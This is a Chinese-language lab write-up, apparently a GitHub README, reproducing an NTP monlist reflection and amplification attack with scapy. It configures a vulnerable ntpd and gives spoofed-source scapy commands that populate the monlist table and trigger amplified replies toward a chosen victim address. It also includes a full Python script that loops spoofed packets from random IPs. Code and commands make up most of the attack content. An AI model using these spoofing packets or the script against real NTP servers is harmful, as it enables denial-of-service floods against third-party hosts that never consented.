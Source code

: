 kali自带ntp server：

	# ntpd --version                                                                               
	ntpd 4.2.8p15@1.3728-o Wed Sep 23 11:46:38 UTC 2020 (1)

或 yum install ntp

没有漏洞的服务器:

	ntpdc -n -c monlist 10.20.24.56

![](images/1.png)

	vim ntp.conf

将下面两行注释(注释后有漏洞，默认没注释)：

```restrict default nomodify notrap nopeer noquery```

```disable monitor```

重启服务器：

开启了monlist且含有漏洞的服务器:

![](images/3.png)

使用 ```# ntpdc >monlist``` 

标红的5个为新加到ntp服务器ip交互列表中ip：

![](images/4.png)

向ntp server ip列表添加ip的payload:

	send(IP(dst='10.10.40.21',src='10.10.40.59')/UDP(sport=123)/NTP(leap=3, version=4, mode=3))

可以观察到增加了一个伪造的ip，10.10.40.59(10.10.40.21为ntp server)：

![](images/5.png)

可模拟网络互通的任意一台主机发包，这里我在10.10.40.99的scapy下输入下面命令模拟对10.10.40.53进行攻击(经测试某些情况靶机无法收到流量)：

	send(IP(dst='10.10.40.21',src='10.10.40.53')/(UDP(sport=46191)/NTP(version=2,mode=7,stratum=0,poll=3,precision=42)))

![](images/6.png)

可以写个脚本循环添加ip到 ntp server的列表里。

	# -*- coding:utf-8 -*-
	# linux
	from scapy.all import *
	import random
	
	if len(sys.argv) != 3:
	    print("参数错误，用法如下: ")
	    print("python ntp_amplify.py [ntp_server_IP] [num]")
	    sys.exit()
	ntp_server = sys.argv[1]
	num = int(sys.argv[2])
	print("NTP reflect start,press Ctrl+C to stop.")
	for i in range(num):
	    ip = str(random.randint(1, 200)) + '.' + str(random.randint(1, 200)) + '.' + str(
	        random.randint(1, 200)) + '.' + str(random.randint(1, 200))
	    send(IP(dst=ntp_server, src=ip) / UDP(sport=123) / NTP(leap=3, version=4, mode=3))
	    print(ip + 'successful!')

用法：

	python ntp_amplify.py 10.10.40.21 10

再使用工具 scapy 模拟靶机(目标机)进行请求查询，获取放大的ntp response。例如对53发起攻击：

	send(IP(dst='10.10.40.21',src='10.10.40.53')/(UDP(sport=46191)/NTP(version=2,mode=7,stratum=0,poll=3,precision=42)))

效果：使用scapy发一个包，ntp server回复n个包，可以写个循环脚本用scapy发上面的数据包。

![](images/7.png)

## reference

[scapy](https://github.com/secdev/scapy)

## 后记

开始在靶机10.20.24.56 攻击失败；后来靶机换成 10.10.40.53 攻击成功，某些情况靶机无法收到流量，需要换台靶机测试。

![](images/8.jpg)